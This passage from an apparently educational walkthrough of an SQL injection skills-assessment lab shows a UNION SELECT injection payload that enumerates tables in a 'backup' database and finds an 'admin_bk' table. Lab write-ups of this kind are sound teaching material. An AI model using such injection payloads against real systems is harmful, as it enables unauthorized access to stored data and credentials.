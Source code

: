{:refdef: style="text-align: center;"}
[![Extracting data from the first database](/assets/sqlifundamentalsskillsassessment/11_users.png)](/assets/sqlifundamentalsskillsassessment/11_users.png){:target="_blank"}
{:refdef}

Now we have to repeat the same process for the other database, **backup**. By injecting this payload: 

{% highlight sql %}

' UNION SELECT 'a', table_schema, table_name, 'd', 'e' FROM information_schema.tables WHERE table_schema='backup';-- -

{% endhighlight %}

We can see that there is only **one table**, **admin_bk**.

{:refdef: style="text-align: center;"}
[![Enumerating tables in the second database](/assets/sqlifundamentalsskillsassessment/12_backup_db.png)](/assets/sqlifundamentalsskillsassessment/12_backup_db.png){:target="_blank"}
{:refdef}
